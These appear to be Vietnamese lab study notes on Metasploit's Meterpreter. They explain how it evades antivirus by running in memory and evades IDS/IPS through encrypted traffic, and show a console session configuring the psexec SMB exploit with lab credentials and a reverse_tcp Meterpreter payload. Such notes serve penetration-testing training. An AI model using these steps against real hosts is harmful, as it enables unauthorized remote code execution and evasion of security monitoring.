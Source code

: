 # **Metasploit: Meterpreter**

## **Introduction to Meterpreter**

- Meterpreter chạy trên hệ thống đích nhưng không được cài đặt trên đó. Nó chạy trong bộ nhớ và không tự ghi vào đĩa trên mục tiêu. Tính năng này nhằm tránh bị phát hiện trong quá trình quét virus. Theo mặc định, hầu hết các phần mềm chống vi-rút sẽ quét các tệp mới trên đĩa (ví dụ: khi bạn tải xuống tệp từ internet) Meterpreter chạy trong bộ nhớ (RAM - Bộ nhớ truy cập ngẫu nhiên) để tránh có một tệp phải được ghi vào đĩa trên hệ thống đích (ví dụ: meterpreter.exe). Bằng cách này, Meterpreter sẽ được coi là một quy trình và không có tệp trên hệ thống đích.

- Meterpreter cũng nhằm mục đích tránh bị phát hiện bởi các giải pháp IPS (Hệ thống ngăn chặn xâm nhập) và IDS (Hệ thống phát hiện xâm nhập) dựa trên mạng bằng cách sử dụng giao tiếp được mã hóa với máy chủ nơi Metasploit chạy (thường là máy tấn công của bạn). Nếu tổ chức mục tiêu không giải mã và kiểm tra lưu lượng được mã hóa (ví dụ: HTTPS) đến và đi khỏi mạng cục bộ, các giải pháp IPS và IDS sẽ không thể phát hiện các hoạt động của tổ chức đó.

```
msf5 auxiliary(scanner/smb/smb_login) > search smb

Matching Modules
================

   #    Name                                                            Disclosure Date  Rank       Check  Description
   -    ----                                                            ---------------  ----       -----  -----------
   0    auxiliary/admin/mssql/mssql_enum_domain_accounts                                 normal     No     Microsoft SQL Server SUSER_SNAME Windows Domain Account Enumeration
[...]
  108  exploit/windows/smb/psexec                                      1999-01-01       manual     No     Microsoft Windows Authenticated User Code Execution

msf5 auxiliary(scanner/smb/smb_login) > use 108
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf5 exploit(windows/smb/psexec) > setg RHOSTS 10.10.99.129
msf5 exploit(windows/smb/psexec) > setg SMBPass Password1
msf5 exploit(windows/smb/psexec) > setg SMBUser ballen
msf5 exploit(windows/smb/psexec) > show options

Module options (exploit/windows/smb/psexec):

   Name                  Current Setting  Required  Description
   ----                  ---------------  --------  -----------
   RHOSTS                10.10.99.128     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                 445              yes       The SMB service port (TCP)
   SERVICE_DESCRIPTION                    no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                   no        The service display name
   SERVICE_NAME                           no        The service name
   SHARE                 ADMIN$           yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
   SMBDomain             .                no        The Windows domain to use for authentication
   SMBPass               Password1        no        The password for the specified username
   SMBUser               ballen           no        The username to authenticate as


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
```